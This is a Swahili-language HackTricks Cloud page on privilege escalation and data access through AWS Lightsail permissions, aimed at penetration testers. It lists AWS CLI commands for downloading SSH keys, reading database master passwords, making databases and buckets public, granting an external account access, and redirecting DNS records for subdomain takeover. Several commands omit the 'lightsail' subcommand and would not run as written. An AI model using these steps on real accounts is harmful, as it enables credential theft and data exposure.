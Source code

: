 # AWS - Lightsail Privesc

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Lightsail

Kwa habari zaidi kuhusu Lightsail angalia:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Ni muhimu kutambua kuwa Lightsail **haitumii majukumu ya IAM yanayomilikiwa na mtumiaji** bali na akaunti iliyoandaliwa na AWS, hivyo huwezi kutumia huduma hii kwa privesc. Hata hivyo, **data nyeti** kama vile nambari, funguo za API na maelezo ya database yanaweza kupatikana kwenye huduma hii.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Ruhusa hii itakuruhusu kupata funguo za SSH kufikia mifano:
```
aws lightsail download-default-key-pair
```
**Athari Inayowezekana:** Pata habari nyeti ndani ya mifano.

### `lightsail:GetInstanceAccessDetails`

Kibali hiki kitakuruhusu kuzalisha funguo za SSH ili kupata ufikiaji wa mifano:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Athari Inayowezekana:** Pata habari nyeti ndani ya mifano.

### `lightsail:CreateBucketAccessKey`

Kibali hiki kitakuruhusu kupata ufunguo wa kufikia sanduku:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Madhara Yanayoweza Kutokea:** Pata habari nyeti ndani ya ndoo.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Kibali hiki kitakuruhusu kupata anwani za kuingia kwenye database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Athari Inayoweza Kutokea:** Pata habari nyeti ndani ya database.

### `lightsail:UpdateRelationalDatabase`

Haki hii itakuruhusu kubadilisha nenosiri la kupata database:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Ikiwa database haipo wazi, unaweza pia kuifanya iwe wazi na ruhusa hizi kwa

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Athari Inayowezekana:** Pata habari nyeti ndani ya database.

### `lightsail:OpenInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Athari Inayoweza Kutokea:** Kufikia bandari nyeti.

### `lightsail:PutInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao. Tafadhali kumbuka kwamba wito huo utafunga bandari yoyote iliyofunguliwa ambayo haikutajwa.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Athari Inayowezekana:** Kupata ufikivu wa bandari nyeti.

### `lightsail:SetResourceAccessForBucket`

Ruhusa hii inaruhusu kutoa upatikanaji wa mifano kwa sanduku bila kuwa na vyeti ziada

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Upatikanaji mpya wa vikasha vyenye habari nyeti.

### `lightsail:UpdateBucket`

Kwa kibali hiki, mshambuliaji anaweza kutoa upatikanaji wa kusoma kwa akaunti yake ya AWS kwenye vikasha au hata kufanya vikasha kuwa wazi kwa kila mtu:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Madhara Yanayoweza Kutokea:** Upatikanaji mpya wa vikasha vyenye habari nyeti.

### `lightsail:UpdateContainerService`

Kwa ruhusa hizi, mshambuliaji anaweza kutoa upatikanaji kwa ECRs za kibinafsi kutoka kwa huduma za kontena.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Athari Inayowezekana:** Pata habari nyeti kutoka kwa ECR ya kibinafsi

### `lightsail:CreateDomainEntry`

Mshambuliaji mwenye idhini hii anaweza kuunda kikoa cha chini na kukielekeza kwa anwani yake ya IP (uchukuzi wa kikoa cha chini), au kutengeneza rekodi ya SPF inayomruhusu kudanganya barua pepe kutoka kwa kikoa, au hata kuweka anwani yake ya IP kama kikoa kuu.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Athari Inayowezekana:** Kumiliki kikoa

### `lightsail:UpdateDomainEntry`

Mshambuliaji mwenye idhini hii anaweza kuunda subdomain na kuuelekeza kwa anwani yake ya IP (umiliki wa subdomain), au kutengeneza rekodi ya SPF inayomruhusu kudanganya barua pepe kutoka kwa kikoa, au hata kuweka anwani yake ya IP kama anwani kuu ya kikoa.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Athari Inayowezekana:** Kuchukua udhibiti wa kikoa

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
